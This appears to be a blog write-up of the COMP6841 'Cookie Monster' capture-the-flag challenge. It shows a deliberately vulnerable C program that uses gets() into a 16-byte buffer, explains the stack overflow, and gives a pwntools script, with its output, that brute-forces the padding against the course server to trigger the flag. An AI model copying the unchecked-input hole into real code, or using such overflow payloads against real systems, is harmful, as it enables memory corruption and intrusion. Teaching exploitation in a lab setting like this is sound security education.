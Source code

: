 ```yaml
---
title: "Tutor CTF: Cookie Monster"
description: (200 points) Binary Challenge
author: Kevin Zhu
public: true
uploadDate: 2022-04-08 23:15+11:00
lastModified: 2022-04-08 23:15+11:00
notes: ''
tags:
- capture the flag
- tutor ctf
- comp6841
menu:
  groups: []
  submenus: []
name: 31_tutorctf_cookie_monster
---
```


_Contest Source: [COMP6[84]41 CTF](https://www.comp6841.com/challenges)_

> _Note that all flags have been replaced with "COMP6841{REDACTED}". This is to discourage you from just blindly submitting the final answer, and to encourage you to follow along and learn something along the way._

We are given a netcat IP address and a exploitable buffer code. Let's look at it:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define BUFFER_SIZE 16
#define FLAG_SIZE 50
#define QUOTE_SIZE 4

char flag[FLAG_SIZE];
char quotes[QUOTE_SIZE][100] = {"NOT ENOUGH COOKIES", "I'M STILL HUNGRY", "MORE", "GRRR GIVE ME COOKIES"};

void oppsie(void) {
    char c1 = 1;
    char c2 = 1;
    char c3 = 1;
    char c4 = 1;
    char c5 = 1;
    char c6 = 1;
    char buffer[BUFFER_SIZE];
    gets(buffer);

    if (c1 == 'C' && c2 == 'O' && c3 == 'O' && c4 == 'K' && c5 == 'I' && c6 == 'E') {
        printf("%s\n", flag);
        fflush(stdout);
        exit(1);
    }
}

void cry(int counter) {
    printf("%s", quotes[counter % QUOTE_SIZE]);
    for (int i = counter*2; i > 0; i--) {
        printf("!");
    }
    printf("\n");
}

int main(int argc, char **argv){

    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("Missing flag.txt\n");
        exit(0);
    }

    fgets(flag, FLAG_SIZE, f);

    printf("HI, I'M THE COOKIE MONSTER AND I LOVE COOKIES\n");

    int counter = 0;
    while (1) {
        printf("Feed the cookie monster: ");
        fflush(stdout);
        oppsie();
        if (counter > 0) {
            cry(counter);
        }
        counter++;
    }
    return 0;
}
```

So right off the bat, it looks like the `oppsie` function is going to be pretty important, since if we can somehow get the variables `c1` to `c6` equal to "COOKIE", then we can get the flag. Unfortunately, we have no way of changing them from their initial values, so it seems impossible.

However, we can exploit a buffer overflow in the `gets(buffer)` line. `gets` is insecure, and does not check the size of the buffer when scanning in. This means that if we enter a string that is longer than BUFFER_SIZE (16 in this case), we will start to overflow our buffer and overwrite values in the stack. Hence, we can enter something like "AAAAAAAAAAAAAAAAEIKOOC" (16 A's, followed by COOKIE in reverse because we overwrite the variables in reverse order) in order to overwrite the next variables on the stack, which of course happen to be `c6`, `c5`, `c4`, etc.

Though in reality, it's not all that simple. Because of how compilers will align variable addresses, we're not guaranteed that we need exactly 16 A's. It can be a little bit more than that. Thus, it's useful to write a script that will try all sorts of different numbers of A. `pwntools` provides a really nice tool that allows us to quickly connect to such a netcat server and brute force all the different numbers until we find one that works. Here's a very crude implementation that crashes as soon as it finds the correct number of A's:

```python
from pwn import *

conn = remote("13.210.180.94", 10001)
for i in range(16, 30):
    conn.recvuntil(b'Feed the cookie monster: ')
    s = b'A'*i+b'EIKOOC\n'
    conn.send(s)
    print(i, s)

conn.close()
```

Running it, we get:

```sh
$ python3 get.py
16 b'AAAAAAAAAAAAAAAAEIKOOC\n'
17 b'AAAAAAAAAAAAAAAAAEIKOOC\n'
18 b'AAAAAAAAAAAAAAAAAAEIKOOC\n'
19 b'AAAAAAAAAAAAAAAAAAAEIKOOC\n'
20 b'AAAAAAAAAAAAAAAAAAAAEIKOOC\n'
21 b'AAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
22 b'AAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
23 b'AAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
24 b'AAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
25 b'AAAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
26 b'AAAAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
Traceback (most recent call last):
  File "attack.py", line 5, in <module>
    conn.recvuntil(b'Feed the cookie monster: ')
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 333, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 105, in recv
    return self._recv(numb, timeout) or b''
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 183, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
[*] Closed connection to 13.210.180.94 port 10001
```

Which tells us that 26 A's caused the program to exit without giving us another "Feed the cookie monster:" message. In other words, we've found the right number of A's to trigger the `oppsie` code! We can now manually enter in the correct string to get the flag, or alternately run pwntools in DEBUG mode so that it returns the final message before the program crashed.

```sh
$ python3 get.py DEBUG
```
